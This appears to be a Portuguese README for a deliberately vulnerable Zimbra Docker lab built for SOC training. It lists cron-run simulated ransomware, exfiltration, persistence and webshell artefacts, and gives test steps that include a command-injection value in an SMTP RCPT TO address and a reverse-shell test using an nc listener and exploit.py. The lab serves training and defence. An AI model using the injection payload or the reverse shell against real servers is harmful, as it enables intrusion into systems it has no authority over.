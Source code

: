 ## Artefatos Dinâmicos Simulados

Este ambiente inclui artefatos automatizados para simular ataques reais e gerar ruído para análise SOC. Todos são ativados automaticamente via cron.

- **ransomware_simulado_linux.sh**: Criptografa arquivos em `/opt/vulnerable_files` e gera nota de resgate. Restaure com `ransomware_restore_linux.sh`.
- **flood_logs_linux.sh**: Gera eventos falsos em logs do sistema.
- **exfiltracao_simulada.sh**: Simula exfiltração de dados do sistema.
- **portscan_simulado.sh**: Simula varredura de portas internas.
- **persistencia_simulada.sh**: Simula persistência via cron.
- **webshell_simulado.php**: Webshell PHP para simulação de invasão (`/opt/zimbra`).

### Restauração
Execute `/usr/local/bin/ransomware_restore_linux.sh` no container para restaurar arquivos criptografados.

### Análise
Todos os artefatos geram logs específicos para facilitar investigação e correlação de alertas.

## Execução Automática
- Ambos os artefatos são executados automaticamente no boot do container.

---

## 🧪 Testes e Validação

### **Teste de Conectividade**
```bash
# Verificar se container está rodando
docker ps | grep maquina4-zimbra

# Verificar portas
netstat -tlnp | grep :25

# Testar SMTP
telnet 127.0.0.1 25
```

### **Teste de Vulnerabilidade**
```bash
# Comando simples
RCPT TO: <"aabbb$(whoami)@test.com">

# Verificar saída
# Deve retornar: 250 OK - Output: zimbra
```

### **Teste de Reverse Shell**
```bash
# Terminal 1: Listener
nc -lvp 4444

# Terminal 2: Exploit
python3 exploit.py 127.0.0.1 -p 25 -lh IP_EXTERNO -lp 4444

# Verificar conexão no listener
```
